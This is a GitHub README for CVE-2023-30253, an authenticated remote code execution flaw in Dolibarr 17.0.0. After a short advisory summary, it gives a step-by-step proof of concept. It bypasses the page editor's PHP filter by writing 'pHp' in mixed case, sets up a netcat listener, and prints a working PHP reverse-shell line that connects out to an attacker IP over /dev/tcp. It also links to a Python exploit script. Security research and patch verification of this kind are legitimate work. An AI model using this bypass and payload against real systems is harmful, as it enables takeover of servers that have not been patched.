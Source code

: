 # Readme.md

## **CVE-2023-30253**

CVE-2023-30253 is a security flaw in Dolibarr software that enables authenticated users to execute remote code by utilizing an uppercase manipulation technique in injected data.

## Impact

This vulnerability can lead to unauthorized remote code execution by malicious actors, posing a severe threat to the security and integrity of the affected systems.
The vulnerability has been fixed in Dolibarr 17.0.1.

## Reference

[https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

[https://github.com/Dolibarr/dolibarr](https://github.com/Dolibarr/dolibarr)

---

## **Proof of Concept**

Following POC shows how to get Reverse Shell manually.

![Untitled.png](images/Untitled.png)

After login as test user, we can create/modify website.

![Untitled (1).png](images/Untitled_(1).png)

First create a website, and then create a page.

![Untitled (2).png](images/Untitled_(2).png)

![Untitled](images/Untitled%201.png)

After creating website and page, click on binoculars icon, this will open our created page in new tab.

Now click on Edit HTML Source.

![Untitled (4).png](images/Untitled_(4).png)

Here we can try adding php code, but there is some kind of filter preventing us to write a php code.
This can be easily bypassed by changing the format of word php.

![Untitled (5).png](images/Untitled_(5).png)

After changing format of word php to pHp, we can see it is successfully saved.

![Untitled (6).png](images/Untitled_(6).png)

Going to the page, we can see our inserted php code is working.

Now to get reverse shell, lets set up netcat listener

![Untitled (7).png](images/Untitled_(7).png)

![Untitled (8).png](images/Untitled_(8).png)

Then add our reverse shell code `<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.101/1010 0>&1'"); ?>`

Now opening the website, gives us reverse shell

![Untitled (9).png](images/Untitled_(9).png)

---

---

---

We can use the python code to make it easier

![Untitled](images/Untitled%202.png)

Setup netcat listener.

![Untitled](images/Untitled%203.png)

Run the script and we should have a revershell.

![Untitled](images/Untitled%204.png)
Author of the script: [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)